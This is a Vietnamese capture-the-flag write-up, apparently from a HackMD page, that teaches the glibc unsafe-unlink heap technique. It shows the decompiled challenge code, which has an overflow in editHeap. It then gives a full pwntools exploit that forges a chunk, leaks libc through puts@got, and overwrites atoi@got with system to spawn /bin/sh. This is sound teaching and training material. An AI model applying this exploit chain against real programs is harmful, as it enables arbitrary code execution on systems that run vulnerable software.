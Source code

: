 # unsafe unlink (UL)
## Lý thuyết
- UL là kĩ thuật khai thác hàm unlink trong file libc. Lỗi này xảy khi free một chunk, hàm unlink trong libc sẽ kiểm tra `(P->fd->bk != P || P->bk->fd != P) == False`.
<details><summary>Source unlink</summary>

```c
static void
unlink_chunk (mstate av, mchunkptr p)
{<!-- -->
  if (chunksize (p) != prev_size (next_chunk (p)))
    malloc_printerr ("corrupted size vs. prev_size");

  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;

  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");

  fd->bk = bk;
  bk->fd = fd;
// ....code
// ....code
}
```

</details>

- Kĩ thuật này có thể sử dụng khi ta có lỗi ow heap hoặc có một con trỏ tuỳ chỉnh.
## Unsafe unlink flow
- Tạo 2 chunk A, B, tạo một fake chunk trong A
![](https://hackmd.io/_uploads/HJIrEjeP3.png)

# Heap 4
## Source code

<details><summary>create heap</summary>

```c
__int64 createHeap()
{
  signed int Int; // [rsp+8h] [rbp-8h]
  unsigned int nmemb; // [rsp+Ch] [rbp-4h]

  printf("Index:");
  Int = readInt();
  if ( (unsigned int)Int >= 0xA )
    exit(0);
  if ( *(&store + Int) )
    return 0LL;
  printf("Input size:");
  nmemb = readInt();
  if ( nmemb > 0x1000 )
    exit(0);
  *(&store + Int) = calloc(nmemb, 1uLL);
  storeSize[Int] = nmemb;
  printf("Input data:");
  readStr(*(&store + Int), nmemb);
  puts("Done");
  return 0LL;
}
```
</details>

<details><summary>showHeap</summary>

```c
__int64 showHeap()
{
  int Int; // [rsp+Ch] [rbp-4h]

  printf("Index:");
  Int = readInt();
  if ( (unsigned int)Int >= 0xA )
    exit(0);
  if ( *(&store + Int) )
    printf("Data = %s\n", (const char *)*(&store + Int));
  return 0LL;
}
```
    
</details>

<details><summary>deleteHeap</summary>

```c
__int64 deleteHeap()
{
  int Int; // [rsp+Ch] [rbp-4h]

  printf("Input index:");
  Int = readInt();
  if ( (unsigned int)Int >= 0xA )
    exit(0);
  if ( *(&store + Int) )
  {
    free(*(&store + Int));
    *(&store + Int) = 0LL;
    puts("Done ");
  }
  return 0LL;
}
```
    
</details>

<details><summary>editHeap</summary>

```c
__int64 editHeap()
{
  int Int; // [rsp+8h] [rbp-28h]
  unsigned int v2; // [rsp+Ch] [rbp-24h]
  char s1[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("Input index:");
  Int = readInt();
  if ( (unsigned int)Int >= 0xA )
    exit(0);
  if ( !*(&store + Int) )
    return 0LL;
  printf("Input newsize:");
  v2 = readInt();
  if ( storeSize[Int] < v2 )
    storeSize[Int] = v2;
  puts("Do you want to change data (y/n)?");
  readStr(s1, 10LL);
  if ( !strcmp(s1, "y") )
  {
    printf("Input data:");
    readStr(*(&store + Int), (unsigned int)storeSize[Int]);
  }
  puts("Done ");
  return 0LL;
}
```
                          
</details>

<details><summary>main</summary>
```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  initState(argc, argv, envp);
  puts("Ez heap challange !");
  while ( 1 )
  {
    menu();
    switch ( (unsigned int)readInt() )
    {
      case 1u:
        createHeap();
        break;
      case 2u:
        showHeap();
        break;
      case 3u:
        editHeap();
        break;
      case 4u:
        deleteHeap();
        break;
      case 5u:
        exit(0);
      default:
        puts("no option");
        break;
    }
  }
}
```

</details>

## Khai thác

### Tạo fake chunk
- Đầu tiên, ta cần tạo khoảng 5 đến 6 chunk

```python=
create(str(0), str(0x80), "a"*0x80)    # bỏ vì nó nằm đầu
create(str(1), str(0x80), "a"*0x80)
create(str(2), str(0x80), "a"*0x80)    # 1, 2 có thể bỏ
create(str(3), str(0x80), "a"*0x80)    # target
create(str(4), str(0x80), "a"*0x80)
create(str(5), str(0x80), "a"*0x80)    # bỏ vì nếu unlink nó gộp với top chunk
```
- Vì chương trình không cho ta UAF, ta có thể dùng unsafe unlink để ow store, khi đó ta có thể leak
```python=
wr_section = 0x6020e0 
payload = flat(
    0, 0,                           # size
    wr_section, wr_section + 8      # fd, bk fakechunk
)
payload = payload.ljust(0x80)       # padding
payload += p64(0x80) + p64(0x90)    # ow header chunk 4
edit(str(3), str(144), payload)
delete(str(4))
```
### Leak libc
- Ta sẽ ghi đè store[0] của là địa chỉ của put@got, để khi dùng show, nó sẽ hiện put@plt để ta tính libc base
```python=
edit(str(3), str(144), p64(0x602020))
show("0")
p.recvuntil(b" = ")
libc.address = u64(p.recvline(keepends = False) + b'\0\0') - libc.sym['puts']
info("libc base: " + hex(libc.address))
```
### ow atoi = system
- Vì atoi(nptr) chỉ chứa một tham số, ta có thể ow atoi = system và truyền từ bàn phím nptr = /bin/sh
```python=
edit(str(3), str(144), p64(exe.got['atoi']))
edit(str(0), str(144), p64(libc.sym['system']))
create("/bin/sh", str(0x80), "a"*0x80)
```
    
## Kết quả
![](https://hackmd.io/_uploads/SyBNJ3gDh.png)
```python=
#!/usr/bin/python3

from pwn import *

exe = ELF('pwn4_ul_patched', checksec=False)
libc = ELF('libc.2.23.so', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
				b* editHeap+0

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()

def create(idx, size, data):
	sla(b">\n", b"1")
	sla(b":",idx.encode())
	sla(b":",size.encode())
	sa(b":",data.encode())

def show(idx):
	sla(b">\n", b"2")
	sla(b":",idx.encode())
def edit(idx, newsize, data):
	sla(b">\n", b"3")
	sla(b":",idx.encode())
	sla(b":",newsize.encode())
	sla(b"?\n",b"y")
	sa(b":", data)
def delete(idx):
	sla(b">\n", b"4")
	sla(b":",idx.encode())
create(str(0), str(0x80), "a"*0x80)
create(str(1), str(0x80), "a"*0x80)
create(str(2), str(0x80), "a"*0x80)
create(str(3), str(0x80), "a"*0x80)
create(str(4), str(0x80), "a"*0x80)
create(str(5), str(0x80), "a"*0x80)
wr_section = 0x6020e0 
payload = flat(
    0, 0,
    wr_section, wr_section + 8
)
payload = payload.ljust(0x80)
payload += p64(0x80) + p64(0x90)
edit(str(3), str(144), payload)
delete(str(4))
edit(str(3), str(144), p64(0x602020))
show("0")
p.recvuntil(b" = ")
libc.address = u64(p.recvline(keepends = False) + b'\0\0') - libc.sym['puts']
info("libc base: " + hex(libc.address))

edit(str(3), str(144), p64(exe.got['atoi']))
edit(str(0), str(144), p64(libc.sym['system']))
create("/bin/sh", str(0x80), "a"*0x80)

p.interactive()

```
